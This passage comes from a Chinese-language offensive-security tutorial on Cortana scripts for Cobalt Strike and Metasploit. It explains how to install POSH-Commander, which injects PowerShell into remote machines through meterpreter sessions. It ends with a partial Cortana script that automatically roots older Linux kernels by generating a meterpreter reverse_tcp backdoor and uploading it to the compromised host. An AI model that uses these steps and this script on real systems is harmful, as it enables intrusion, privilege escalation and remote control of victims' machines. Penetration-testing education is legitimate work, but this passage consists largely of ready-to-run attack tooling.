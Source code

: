 *   **vy_con**：使用此脚本可以控制和管理Vyatta的路由器。

0x06 POSH-Commander
=====

在Powrshell如火如荼的时候，怎么能缺少Powershell相关的脚本呢？rvrsh3ll在github开源了一个与Powershell相关的Cortana脚本，使用此脚本可以通过可视化操作远程注入powershell脚本到计算机内存，下载地址为：

```
root@kali:~# git clone https://github.com/rvrsh3ll/POSH-Commander.git

```

下载以后，将remote_powershell.rb复制到metasploit-framework/modules/post/windows/manage/powershell/ 目录：

```
root@kali:~# cp POSH-Commander/msfmodule/remote_powershell.rb /usr/share/metasploit-framework/modules/post/windows/manage/powershell/

```

之后打开msf的console界面，执行如下命令：

```
msf> reload_all

```

依此点击cobaltstrike->Scripts->load，加载posh_commander.cna，当获取meterpreter会话以后，将会看到新增的powershell攻击模块：

![Alt text](http://drops.javaweb.org/uploads/images/a11435a0a2322100bb0af9dc2d9bb991bfac9cf8.jpg)

选择其中的Veil-PowerView，输入脚本地址，然后就可以选择加载的模块了：

![Alt text](http://drops.javaweb.org/uploads/images/c9c8c5779c46265c2486d332a9410d3c856f30ca.jpg)

之后可以双击单个模块，添加相应参数然后运行该Powershell脚本。原脚本路径有点问题，不想改的话可以直接试用[这个](https://raw.githubusercontent.com/Ridter/Cortana/master/POSH-Commander/posh_commander.cna)。

测试执行HOST命令，选择Custom Local Command，输入HOST，运行之后可以看到运行返回的结果：

![Alt text](http://drops.javaweb.org/uploads/images/10850877ff6257ca5b1735755bfad7df89983215.jpg)

0x07 定制自己的Cortana
=====

除了以上的脚本，为了方便我们还可以自己编写属于自己的Cortana脚本，编写示例在Cortana scripts里面已经有了一些，如果有兴趣，你可以看看这个：

*   [Cortana教程](http://www.fastandeasyhacking.com/download/cortana/cortana_tutorial.pdf)
*   [Cortana编写示例](http://security-is-just-an-illusion.blogspot.com/2013/11/one-day-with-cortana-script-engine.html)

比如下面是一个自动对2.6.36内核linux自动提权的脚本：

```
# Auto Rooting < 2.6.36 Menu for Cobalt Engine v0.1 
popup shell {
 if (host_os(session_host($1)) eq "Linux") {
     menu "Auto Rooting" {
           item "Auto Rooting < 2.6.36" {
               println("Auto Rooting");
                                # Generate Payload
                                $r_lport = random_port();
                                $backdoor = generate("linux/x86/meterpreter/reverse_tcp", lhost(), $r_lport, %(), "elf");
                                $handle2 = openf(">/tmp/linux_backdoor_$r_lport");
                                writeb($handle2, $backdoor);
                                closef($handle2);  

                                shell_upload($1, "/tmp/linux_backdoor_$r_lport", "/tmp/linux_backdoor_$r_lport");

```